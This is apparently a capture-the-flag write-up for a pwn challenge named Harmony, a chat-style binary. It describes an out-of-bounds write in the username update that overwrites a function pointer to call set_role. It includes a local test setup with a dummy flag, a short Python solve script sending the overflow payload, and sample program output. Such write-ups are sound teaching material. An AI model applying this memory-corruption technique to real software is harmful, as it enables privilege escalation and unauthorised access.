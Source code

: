 # RaRmony
You can view something like a bulletin board log by logging in as a user with certain privileges. Some channels are likely to have a flag, but I can't see it without permission. There are two functions: changing the role name of the account `update_role` and changing the user name `update_username`.

There is an oob write in the `update_username`, and you can overwrite the function that changes the username. After all, the role should be 0, so it seems good to call `set_role`. Since rsi is 0 when calling `update_username`, you should be able to read it.

To execute this binary, you have to prepare directory and dummy flag like this for testing exploits at local.:
```
$ ls -lfR
.:
.  ..  channels  Dockerfile  harmony  run.sh  solve.py

./channels:
.  ..  crypto  general  misc  pwn  rev  secret-admin-chat  spam  team-locator-inator  web

$ cat channels/secret-admin-chat 
1:flag{furaguyade}
```

```python
def readch(ch):
        r.sendlineafter('> ', '0')
        r.sendlineafter('> ', str(ch))
def view():
        r.sendlineafter('> ', '1')

def chrole(name):
        r.sendlineafter('> ', '2')
        r.sendlineafter(': ', name)

def chusername(name):
        r.sendlineafter('> ', '3')
        r.sendlineafter(': ', name)

chrole('A'*0x26)
chusername('B'*0x20+p64(elf.sym.set_role).strip('\x00'))

r.sendlineafter('> ', '3')
readch(2)
```

```
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> $ 0
Choose channel to view
0. general
1. pwn
2. secret-admin-chat
3. team-locator-inator
4. crypto
5. spam
6. rev
7. misc
8. web
> $ 2
```